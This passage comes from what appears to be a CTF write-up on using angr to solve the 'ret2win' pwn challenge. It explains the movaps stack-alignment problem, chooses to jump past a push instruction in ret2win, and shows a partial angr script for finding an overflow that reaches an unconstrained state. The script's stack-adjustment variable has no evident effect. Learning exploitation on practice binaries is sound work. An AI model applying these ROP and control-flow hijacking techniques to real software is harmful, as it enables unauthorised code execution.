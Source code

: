 The article suggests mitigating this issue by padding your ROP chain with an extra ret before returning into a function or returning further into a function to skip a push instruction. 

![](/assets/posts/2024-02-18-angr-for-solving-pwn-challenges/ret2win_disas.bmp)

After analyzing the disassembly of the ret2win function, I decided to circumvent the problematic push instruction and instead jump to address 0x00400757. At this address, the instruction mov %rsp, %rbp effectively moves the value of the stack pointer (%rsp) into the base pointer register (%rbp), offering a resolution to the alignment issue induced by movaps. To address this adjustment in the stack, the Angr script needs an update. Below is the modified Angr script:

```py
import angr
import claripy
import os

# Analyzing the main binary without automatically loading external libraries for a more concise and focused control flow graph.
project = angr.Project("./ret2win", auto_load_libs=False)

# Analyze the control flow graph of the binary
cfg = project.analyses.CFGFast()

# Get the address for ret2win from the binary
cat_flag = project.kb.functions["ret2win"].addr

# The required adjustment needed to fix stack alignment issue
alignment_required = 1  

# Create a symbolic variable for the stack adjustment
stack_adjustment = claripy.BVS("stack_adjustment", 8 * 8)

# Adjust the symbolic stack size based on the alignment requirement
sym = claripy.BVS("stdin", (1024 + alignment_required) * 8)

# Create the initial state with the adjusted stack size
initial_state = project.factory.entry_state(
    stdin=sym,
    add_options={angr.options.STRICT_PAGE_ACCESS}
)

# Add a constraint for the stack adjustment
initial_state.add_constraints(stack_adjustment == alignment_required)

# Create a SimulationManager that keeps track of unconstrained states
simgr = project.factory.simulation_manager(initial_state, save_unconstrained=True)

# Run until an unconstrained state occurs
simgr.run(until=lambda sm: len(sm.unconstrained) > 0)

```